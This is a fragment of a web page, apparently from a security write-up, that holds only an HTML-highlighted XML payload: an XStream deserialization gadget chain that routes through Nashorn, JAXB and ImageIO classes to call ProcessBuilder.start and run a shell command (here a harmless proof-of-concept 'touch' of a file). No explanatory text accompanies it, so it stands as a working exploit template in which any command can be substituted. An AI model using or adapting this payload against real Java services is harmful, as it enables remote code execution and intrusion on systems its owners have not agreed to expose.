 <span class="hljs-tag">&lt;<span class="hljs-title">jdk.nashorn.internal.objects.NativeString</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">flags</span>&gt;</span>0<span class="hljs-tag">&lt;/<span class="hljs-title">flags</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">value</span> <span class="hljs-attribute">class</span>=<span class="hljs-value">"com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">dataHandler</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">dataSource</span> <span class="hljs-attribute">class</span>=<span class="hljs-value">"com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">is</span> <span class="hljs-attribute">class</span>=<span class="hljs-value">"javax.crypto.CipherInputStream"</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">cipher</span> <span class="hljs-attribute">class</span>=<span class="hljs-value">"javax.crypto.NullCipher"</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">initialized</span>&gt;</span>false<span class="hljs-tag">&lt;/<span class="hljs-title">initialized</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">opmode</span>&gt;</span>0<span class="hljs-tag">&lt;/<span class="hljs-title">opmode</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">serviceIterator</span> <span class="hljs-attribute">class</span>=<span class="hljs-value">"javax.imageio.spi.FilterIterator"</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">iter</span> <span class="hljs-attribute">class</span>=<span class="hljs-value">"javax.imageio.spi.FilterIterator"</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">iter</span> <span class="hljs-attribute">class</span>=<span class="hljs-value">"java.util.Collections$EmptyIterator"</span>/&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">next</span> <span class="hljs-attribute">class</span>=<span class="hljs-value">"java.lang.ProcessBuilder"</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">command</span>&gt;</span><span class="hljs-tag">&lt;<span class="hljs-title">string</span>&gt;</span>/usr/bin/touch<span class="hljs-tag">&lt;/<span class="hljs-title">string</span>&gt;</span><span class="hljs-tag">&lt;<span class="hljs-title">string</span>&gt;</span>/home/4ct10n<span class="hljs-tag">&lt;/<span class="hljs-title">string</span>&gt;</span> <span class="hljs-tag">&lt;/<span class="hljs-title">command</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">redirectErrorStream</span>&gt;</span>false<span class="hljs-tag">&lt;/<span class="hljs-title">redirectErrorStream</span>&gt;</span> <span class="hljs-tag">&lt;/<span class="hljs-title">next</span>&gt;</span> <span class="hljs-tag">&lt;/<span class="hljs-title">iter</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">filter</span> <span class="hljs-attribute">class</span>=<span class="hljs-value">"javax.imageio.ImageIO$ContainsFilter"</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">method</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">class</span>&gt;</span>java.lang.ProcessBuilder<span class="hljs-tag">&lt;/<span class="hljs-title">class</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">name</span>&gt;</span>start<span class="hljs-tag">&lt;/<span class="hljs-title">name</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">parameter-types</span>/&gt;</span> <span class="hljs-tag">&lt;/<span class="hljs-title">method</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">name</span>&gt;</span>foo<span class="hljs-tag">&lt;/<span class="hljs-title">name</span>&gt;</span> <span class="hljs-tag">&lt;/<span class="hljs-title">filter</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">next</span> <span class="hljs-attribute">class</span>=<span class="hljs-value">"string"</span>&gt;</span>foo<span class="hljs-tag">&lt;/<span class="hljs-title">next</span>&gt;</span> <span class="hljs-tag">&lt;/<span class="hljs-title">serviceIterator</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">lock</span>/&gt;</span> <span class="hljs-tag">&lt;/<span class="hljs-title">cipher</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">input</span> <span class="hljs-attribute">class</span>=<span class="hljs-value">"java.lang.ProcessBuilder$NullInputStream"</span>/&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">ibuffer</span>&gt;</span><span class="hljs-tag">&lt;/<span class="hljs-title">ibuffer</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">done</span>&gt;</span>false<span class="hljs-tag">&lt;/<span class="hljs-title">done</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">ostart</span>&gt;</span>0<span class="hljs-tag">&lt;/<span class="hljs-title">ostart</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">ofinish</span>&gt;</span>0<span class="hljs-tag">&lt;/<span class="hljs-title">ofinish</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">closed</span>&gt;</span>false<span class="hljs-tag">&lt;/<span class="hljs-title">closed</span>&gt;</span> <span class="hljs-tag">&lt;/<span class="hljs-title">is</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">consumed</span>&gt;</span>false<span class="hljs-tag">&lt;/<span class="hljs-title">consumed</span>&gt;</span> <span class="hljs-tag">&lt;/<span class="hljs-title">dataSource</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">transferFlavors</span>/&gt;</span>